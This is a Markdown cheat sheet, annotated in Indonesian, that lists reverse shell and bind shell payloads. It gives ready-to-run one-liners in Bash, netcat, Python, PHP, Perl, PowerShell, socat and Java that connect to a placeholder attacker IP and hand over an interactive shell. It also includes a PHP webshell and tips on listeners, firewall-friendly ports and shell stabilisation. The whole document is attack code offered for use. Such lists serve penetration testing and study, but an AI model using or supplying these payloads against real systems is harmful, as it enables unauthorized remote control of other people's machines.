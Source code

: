 # Reverse Shell & Bind Shell Cheatsheet

## Reverse Shell Payloads

### Bash

- **Basic Bash Reverse Shell**

  ```bash
  bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
  ```

  _Keterangan: Mengirim shell interaktif ke listener attacker._

- **Bash TCP (versi alternatif)**
  ```bash
  0<&196;exec 196<>/dev/tcp/ATTACKER_IP/PORT; sh <&196 >&196 2>&196
  ```
  _Keterangan: Alternatif jika payload utama gagal._

---

### Netcat (nc)

- **Netcat dengan -e**

  ```bash
  nc -e /bin/bash ATTACKER_IP PORT
  ```

  _Keterangan: Mengirim shell ke attacker. Tidak semua versi nc mendukung -e._

- **Netcat tanpa -e (POSIX)**

  ```bash
  rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f
  ```

  _Keterangan: Untuk netcat yang tidak mendukung -e._

- **Netcat OpenBSD (tanpa -e)**
  ```bash
  nc -c bash ATTACKER_IP PORT
  ```
  _Keterangan: Hanya di OpenBSD netcat._

---

### Python

- **Python 2**

  ```python
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```

- **Python 3**
  ```python
  python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER_IP",PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];subprocess.call(["/bin/sh","-i"])'
  ```

---

### PHP

- **PHP CLI**

  ```php
  php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

- **PHP Webshell (untuk RCE via web)**
  ```php
  <?php system($_GET['cmd']); ?>
  ```
  _Keterangan: Untuk eksekusi perintah via browser, bukan reverse shell langsung._

---

### Perl

- **Perl Reverse Shell**
  ```perl
  perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

---

### PowerShell (Windows)

- **PowerShell One-Liner**
  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
  ```

---

### Socat

- **Socat Reverse Shell**
  ```bash
  socat TCP:ATTACKER_IP:PORT EXEC:/bin/bash
  ```
  _Keterangan: Socat harus tersedia di target._

---

### Java

- **Java Reverse Shell**
  ```bash
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKER_IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  ```
  _Keterangan: Untuk RCE berbasis Java._

---

## Bind Shell Payloads

### Netcat

- **Netcat Bind Shell**
  ```bash
  nc -lvp PORT -e /bin/bash
  ```
  _Keterangan: Target membuka port dan menunggu koneksi attacker._

---

### Python

- **Python Bind Shell**
  ```python
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",PORT));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0); os.dup2(conn.fileno(),1); os.dup2(conn.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```

---

## Cara Mengeksploitasi

1. **Reverse Shell:**

   - Jalankan listener di mesin attacker:
     ```bash
     nc -lvnp PORT
     ```
   - Jalankan payload reverse shell di target.

2. **Bind Shell:**
   - Jalankan payload bind shell di target.
   - Hubungkan ke target dari mesin attacker:
     ```bash
     nc TARGET_IP PORT
     ```

---

## Tips & Informasi Penting

- Ganti `ATTACKER_IP` dan `PORT` sesuai listener Anda.
- Cek interpreter yang tersedia di target (`which bash`, `which python`, dll).
- Jika firewall membatasi port, gunakan port umum (80, 443, 53).
- Untuk stabilitas shell:
  ```bash
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```
- Jika shell tidak interaktif, tekan `Ctrl+Z`, lalu:
  ```bash
  stty raw -echo; fg
  export TERM=xterm
  ```
- Untuk Windows, gunakan PowerShell atau netcat for Windows.

---

**Referensi:**

- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-
